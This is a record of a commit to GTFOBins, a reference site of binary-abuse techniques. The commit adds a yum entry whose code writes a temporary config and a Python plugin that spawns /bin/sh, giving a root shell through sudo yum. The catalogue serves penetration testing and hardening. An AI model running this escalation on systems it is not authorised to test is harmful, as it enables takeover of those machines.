

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/yum.md, in a window 1280 px wide. Shown: the whole page at 99% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update sudo yum by loading a custom plugin (#58)

````diff
--- a/_gtfobins/yum.md
+++ b/_gtfobins/yum.md
@@ -10,4 +10,30 @@ functions:
         ```
       code: |
         sudo yum localinstall -y x-1.0-1.noarch.rpm
+    - description: |
+        Spawn interactive root shell by loading a custom plugin.
+      code: |
+        TF=$(mktemp -d)
+        cat >$TF/x<<EOF
+        [main]
+        plugins=1
+        pluginpath=$TF
+        pluginconfpath=$TF
+        EOF
+
+        cat >$TF/y.conf<<EOF
+        [main]
+        enabled=1
+        EOF
+
+        cat >$TF/y.py<<EOF
+        import os
+        import yum
+        from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
+        requires_api_version='2.1'
+        def init_hook(conduit):
+          os.execl('/bin/sh','/bin/sh')
+        EOF
+
+        sudo yum -c $TF/x --enableplugin=y
 ---
````
